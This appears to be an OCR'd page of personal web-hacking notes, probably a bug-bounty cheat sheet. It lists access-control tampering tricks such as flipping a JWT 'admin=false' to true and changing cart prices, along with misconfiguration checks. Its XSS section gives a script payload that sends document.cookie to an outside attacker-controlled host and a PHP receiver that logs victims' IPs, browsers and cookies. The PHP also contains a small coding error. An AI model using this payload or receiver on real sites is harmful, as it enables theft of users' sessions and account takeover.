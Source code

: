- Access to pages by tampring a parameter value

- Accessing api endpoints by different http methods (put,delete,post) etc and uplaod or delete something

- Abusing or tampering tokens and JWT parameter values for e.g admin=false and change it to admin=true to get access to admin privileges

- We can change cart price,or give review on behalf of other users using this vuln

- When submitting something in a form always inspect element and wherever hidden attribute is used like in passwords we see ****** as a placeholder,we can actually remove the hidden="" or set hidden to false from there and the value will reflect in page if vulnerable.THis way we can get sensitive information like passwords,userid etc

## Security Misconfiguration

https://www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration


- default creds

- verbose errors

- outdated softwares

- file upload bypass

- 


## XSS

https://www.owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
https://www.scip.ch/en/?labs.20171214

- Insert XSS payload in every input area
- try in url (Get parameters, API endpoints)
- Use burp intruder on target input form and paste payloads from github
- we can steal user cookies through xss only if http-only flag is not set on cookie
 

    
   -  Stealing cookies      
  
       **Insert this payload in vulnerable app**     

   >   <script>var i=new image();i.src="http://oursite.com/receiverfiletowritecookies.php?parameter="+escape(document.cookie)</script> 
 
        **receiving php file on which cookies will be written**
 
   >     <?php
   >      
   >    $ip=$_SERVER['REMOTE_ADDR'];$browser=$_SERVER['HTTP_USER_AGENT'];
   >    
   >   
   >    $fp=fopen('txtstorefileonourserver.txt','a');
   >    
   >   fwrite($fp,$ip.''.$browser." \n");fwrite($fp,urldecode($_SERVER['QUERY_STRING']. " \n\n"));fclose($ip);?>
   